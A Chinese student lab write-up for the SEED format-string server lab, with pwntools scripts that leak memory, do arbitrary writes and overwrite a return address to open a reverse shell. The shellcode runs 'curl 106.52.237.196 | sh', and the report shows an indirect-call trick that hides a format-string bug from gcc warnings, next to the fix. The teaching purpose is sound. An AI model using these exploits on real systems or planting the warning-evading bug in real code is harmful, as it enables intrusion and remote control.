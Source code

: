 # Week3 二进制利用进阶-格式化字符串
`注①：根据文档给出的shellcode可知该实验在i386环境下进行，故报告在Ubuntu20.04下尽量相同环境下完成。`  
`注②：程序根据下方链接中seed官网的代码编译`

## 任务1 编译有漏洞的服务器程序
`gcc -z execstack -o server server.c -m32`  
编译，爆出警告，属于是静态分析（匹配）就能找到的漏洞警告  
这个检测实际是gcc的
```
-Wformat -Wformat-nonliteral -Wformat-security -Wformat-y2k
```
选项干的，相当于`-Wformat=2`  
一般版本是默认开启的，当然也有些奇怪的情况会自动关闭

![图 2](images/195e23810f8b0b73a1215109248670cc707edbbd2413e0e30e16e32dea970a4d.png)  

## 任务2 分析漏洞程序的栈结构
`b main`断点后`n`步进和`s`步入到目标printf直接`stack 500`在pwndbg中打出栈的结构（从上往下地址从低到高）：
![图 6](images/3f68a6ce7b5138546eeff630df2d1251ef77693c96898913d709bb7593856f6c.png)  


### Question 1
- 1 0xffffc9f0
- 2 0xffffca8c
- 3 0xffffcb30

### Question 2
`0xffffcb30 - 0xffffc9f0 = 320`  
（我用的是 [官网](https://seedsecuritylabs.org/Labs_16.04/Software/Format_String_Server/files/server.c) 的版本，有100的dummy）

## 任务3 崩掉程序
输入一大堆`%s%s%s%s%s%s%s%s%s`就可以崩掉程序，因为栈上的东西不保证都是可读的地址，事实上极大概率不是可读的地址（除非正好有一堆连着初始化了的指针），所以非常容易报段错误（看看21年6月的iphone吧家人们）

因为随便找个格式化字符串的题这段都会崩就不截图了。

## 任务4 泄露程序内存   
### A 泄露任意栈上数据

我们可以用第二问得到的320除字长4得到我们输入的字符串相对va_start的偏移80，但不调试的情况下我们还有更简单的做法。


经典的做法是输入
`AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.`
观察在`41414141`（也就是那四个A）前输出了多少个`.`即可知道格式化字符串在栈上的offset，同时泄露栈上数据
![图 1](images/6808a9a5c7e246caad8a95dfaa3319a14318cbf5d093cf05dc9e40666886491a.png)  

### B 泄露任意堆上数据
**说起来为什么.rodata段算heap的数据，很奇怪**
但不管Task名字，任务是泄露secret的内容，只要组合`$[num]%[fmt]`和一个地址就可以了。  
所以写个exp：
```python
from pwn import *

def pwn():
    p = remote("靶机IP", 9090, typ='udp')
    # 0x565559e0是secret的地址，---是四字节对齐， 82是上一个任务算出的偏移80 +8/4
    p.sendline(b'%82$s---'+p32(0x565559e0))
    p.close()
```
![图 2](images/b122d61109e3e7450e1e1e222066c2e273060d3f10db8bd1d4c856dc4b7f8972.png)  

## 任务5 任意地址写
先按照要求解释接下来用到的一下代码（轮子）：  
`fmtstr_payload`是`pwnlib`的一个函数  
作用是根据格式化字符串在栈上的offset实现自动生成任意地址写payload  
原理就是简单粗暴的`$[num]%[fmt]`和根据需求使用的`%n`, `%hn`, `%hhn`，然后把地址放到对应位置，通过`%[num]c`复写。

当然在不同要求下也可以手动精心构造比`fmtstr_payload`生成的更短更特殊的格式化字符串，因为之前CTF写过太多了就不在这手搓了，既然本题给出了足够的长度，用现成轮子当然简单稳定高效。

因为targert是data段上的，所以也没偏移什么问题，关ASLR下不泄露地址也没关系。

### A 修改指定地址为任意值
### B 修改指定地址为指定值 0x500
### C 修改指定地址为指定值 0xFF990000
三合一exp：
```python
from pwn import *

def pwn():
    p = remote("靶机IP", 9090, typ='udp')
    context.arch = 'i386'
    p.sendline(fmtstr_payload(80, {0x56557008: 0x114514}, write_size='byte'))
    p.sendline(fmtstr_payload(80, {0x56557008: 0x500}, write_size='byte'))
    p.sendline(fmtstr_payload(80, {0x56557008: 0xFF990000}, write_size='byte'))
    p.close()
```
![图 4](images/533b9ed9e31daded76c882fcdca0b6d62032da5431e53c6bb6696b5a07f5addc.png)  
![图 5](images/cc0583436e33903997c46efed850ef2ac1e40cb4a763c15358f431eebd7035fe.png) 
![图 6](images/a2761e6e46fdceca78603003e710bee567440a3f025b31b2300b4e39fa5e6be9.png)  

 

## 任务6 注入恶意代码
这步是7的前置，就不再赘述了，和7合并。

## 步骤7 反弹shell

其中攻击exp为：
```python
from pwn import *

def pwn():
    p = remote("靶机IP", 9090, typ='udp')
    context.arch = 'i386'
    sc = asm(shellcraft.connect('vps IP', 1337) + shellcraft.dupsh())
    # 这里的malicious_code不是sc，是pdf中的shellcode改了exec中的内容
    p.sendline(fmtstr_payload(80, {0xffffca8c: 0xffffcb6c}, write_size='byte') + malicious_code)
    p.close()
```
需要做的就是把RA复写为shellcode所在地址，因为本题log会打栈地址，所以可以直接计算出栈地址和shellcode地址的偏移，如果关掉自动输出的话，就需要用格式化字符串泄露一个栈上的指向栈上的指针，然后计算偏移。

我的环境直接用shellcraft或者exp-db里的反弹shell代码都不行，所以还是用老师给的`exec('/bin/sh -c "/bin/rm myfile")`来弹（malicious_code）。  
修改的exec的内容为`curl 106.52.237.196 | sh`长度正好，用这个是因为这是我自己改的your-shell的脚本，适配非常多的*inx系统反弹shell，省去很多调试时间（比如目标机器上并没有nc），当然这个题里用pdf里给出的代码弹也是可以的。  

成功反弹shell的截图：  
![图 1](images/d71df5af23abdf8908a4b3d30c4db1b6b421af594f6eed16f950cf0e13bef821.png)  


左上角为攻击机，下方为被攻击的靶机服务器，右上角为接收反弹shell的vps

## 任务8 修复漏洞
根据题目要场景（复读），简单将  
```cpp
printf(msg);
```
改为
```cpp
printf("%s", msg);
```
就可以完成复读同时消除格式化字符串问题了，至于gcc的静态检查，参数个数匹配就可以通过，不会报warning了。

exp还能不能用？显然不行，人脑分析一下`printf("%s", msg)`就知道是当作纯文本输出了，代码甚至贴心的只接收了1499个字节，对1500的缓冲区也不存在obn问题。

但是更有趣的是，我们怎样骗过gcc的静态检查，在不报Warning的情况下仍然编译有漏洞的代码？

我们可以试试很简单却处于学术前沿（这话不是我说的，是某位刚发CCFA的学长说的）的做法：间接调用  
```cpp
...
    // printf(msg);
	int (*func[])(const char * c, ...) = { printf };
	func[0](msg);
...
```
然后发现gcc不报错了，但漏洞还是存在。
![图 7](images/31af4b6832f2cae840f2921170fb6ad90695006255d11d9d56c558fc35bf939b.png)  
